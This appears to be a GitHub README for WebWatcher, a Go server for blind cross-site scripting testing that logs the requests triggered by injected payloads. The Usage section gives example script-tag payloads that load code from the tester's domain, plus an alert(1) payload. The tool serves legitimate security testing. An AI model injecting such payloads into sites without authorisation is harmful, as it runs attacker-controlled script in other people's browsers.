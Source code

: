 # WebWatcher  
Golang server for testing blind XSS.   
Special endpoint for testing requests and file extensions.  

## Setup  


Setup .wwconfig and add it to your home directory.  
Make sure that `assets` and `templates` are in the directory specified in config.  

Login to your website with /login?token=[token]  

## Usage
After authentication, you can find all requests in `/results/all`.  
Left side is from  XSS requests.  
Right side is from custom path requests.  
![results](_img/results.png)  

**Application have 2 parts**  

1. Collecting simple request data from path you specified in config  
This endpoint will contain response specified in `assets/extensions.json` file  

**Example:**  
if you specified `"CollectorPath":"example"` in config file and set .js extensions with payload `alert(1)` in `assets/extensions.json`  
and insert this payload to the website, alert will popup.  
`<script src=https://domain.com/example.js></script>`  

2. Collecting data from blind XSS  
`<script src=https://example.com></script>`  
![blind xss](_img/blindxss.png)  



